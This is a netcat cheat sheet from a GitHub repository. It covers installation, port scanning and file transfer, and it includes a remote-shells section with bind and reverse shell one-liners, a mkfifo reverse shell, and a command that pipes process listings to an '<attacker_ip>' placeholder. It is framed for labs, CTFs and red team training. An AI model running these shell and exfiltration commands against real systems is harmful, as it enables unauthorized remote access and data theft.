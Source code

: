 # Cybersecurity-Mastery-Tools-and-Commands
Tools to Master for Cybersecurity Cheat Sheet




## 🔧 Netcat (nc) Command Reference

Netcat (often abbreviated `nc`) is a lightweight, low-level network utility used for reading, writing, and piping data across TCP/UDP connections. It’s often called the **"Swiss Army Knife"** of networking.

---

### 📦 Installation

**Debian/Ubuntu:**

```bash
sudo apt install netcat
```

**RHEL/CentOS:**

```bash
sudo yum install nc
```

---

### ⚡ Basic Usage

#### 🗣️ Simple Chat (TCP connection)

**On the server (listener):**

```bash
nc -lvp 1234
```

**On the client (connector):**

```bash
nc <server_ip> 1234
```

---

### 🔍 Port Scanning

```bash
nc -zv <target_ip> 1-1000
```

* `-z`: Zero-I/O mode (scan only)
* `-v`: Verbose output

---

### 📁 File Transfer

#### ⬆️ Send File:

```bash
nc <receiver_ip> 4444 < file.txt
```

#### ⬇️ Receive File:

```bash
nc -lvp 4444 > received.txt
```

---

## 👩‍🔌 Remote Shells

### Bind Shell (victim listens):

```bash
nc -lvp 4444 -e /bin/bash
```

### Reverse Shell (victim connects back):

```bash
nc <attacker_ip> 4444 -e /bin/bash
```

> ⚠️ Note: Many systems disable the `-e` flag. Use alternative techniques like `mkfifo` or `socat` instead.

---

## 🔀 Send Command Output

```bash
ps aux | nc <attacker_ip> 4444
```

---

## 🎯 Practical Examples

### 🕵️ Grab a Web Page (HTTP request):

```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
```

### 📃️ Transfer a directory as tar.gz:

**Sender:**

```bash
tar czf - /my/folder | nc <receiver_ip> 4444
```

**Receiver:**

```bash
nc -lvp 4444 | tar xzvf -
```

---

## 🔐 Use with Named Pipes (No `-e` Available)

**On victim:**

```bash
mkfifo backpipe
cat backpipe | /bin/bash | nc <attacker_ip> 4444 > backpipe
```

---

## ⚠️ Security Note

Netcat is extremely powerful but also potentially dangerous. Always use it ethically and legally. Insecure by design — no encryption, no authentication.

---

## 🔗 Related Tools

* `ncat` – Netcat from Nmap with SSL support
* `socat` – More complex socket tool
* `cryptcat` – Encrypted Netcat variant

---

## 📚 Resources

* [https://nmap.org/ncat/](https://nmap.org/ncat/)
* [https://gtfobins.github.io/gtfobins/nc/](https://gtfobins.github.io/gtfobins/nc/)
* [https://highon.coffee/blog/netcat-cheat-sheet/](https://highon.coffee/blog/netcat-cheat-sheet/)

---

> 🧠 Save this as a quick reference and use it responsibly in your labs, CTFs, and red team exercises.
